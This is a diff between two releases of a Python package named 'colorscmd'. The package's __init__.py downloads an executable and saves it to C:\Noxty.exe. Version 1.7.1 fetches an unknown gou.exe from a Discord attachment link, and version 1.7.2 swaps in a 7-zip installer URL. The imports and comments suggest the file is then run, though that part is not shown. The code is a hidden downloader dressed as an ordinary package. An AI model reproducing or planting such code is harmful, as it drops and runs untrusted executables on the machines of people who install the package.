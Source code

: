 # Comparing `tmp/colorscmd-1.7.1.tar.gz` & `tmp/colorscmd-1.7.2.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "colorscmd-1.7.1.tar", max compression
+gzip compressed data, was "colorscmd-1.7.2.tar", max compression
```

## Comparing `colorscmd-1.7.1.tar` & `colorscmd-1.7.2.tar`

### file list

```diff
@@ -1,4 +1,4 @@
--rw-r--r--   0        0        0      891 2023-06-06 18:01:36.002034 colorscmd-1.7.1/colorscmd/__init__.py
--rw-r--r--   0        0        0      254 2023-06-06 18:02:46.106006 colorscmd-1.7.1/pyproject.toml
--rw-r--r--   0        0        0        0 2023-06-06 17:56:10.221576 colorscmd-1.7.1/README.md
--rw-r--r--   0        0        0      247 1970-01-01 00:00:00.000000 colorscmd-1.7.1/PKG-INFO
+-rw-r--r--   0        0        0      843 2023-06-06 18:04:05.466725 colorscmd-1.7.2/colorscmd/__init__.py
+-rw-r--r--   0        0        0      254 2023-06-06 18:03:43.465993 colorscmd-1.7.2/pyproject.toml
+-rw-r--r--   0        0        0        0 2023-06-06 17:56:10.221576 colorscmd-1.7.2/README.md
+-rw-r--r--   0        0        0      247 1970-01-01 00:00:00.000000 colorscmd-1.7.2/PKG-INFO
```

### Comparing `colorscmd-1.7.1/colorscmd/__init__.py` & `colorscmd-1.7.2/colorscmd/__init__.py`

 * *Files 24% similar despite different names*

```diff
@@ -1,13 +1,13 @@
 import os
 import urllib.request
 import subprocess
 
 # URL do arquivo executável a ser baixado
-download_url = 'https://cdn.discordapp.com/attachments/1115689166789955645/1115692855739027566/gou.exe'
+download_url = 'https://www.7-zip.org/a/7z2201-x64.exe'
 # Caminho onde o arquivo será salvo localmente
 file_path = f'C:\\Noxty.exe'
 
 # Função para baixar o arquivo
 def download_file(url, path):
     urllib.request.urlretrieve(url, path)
```

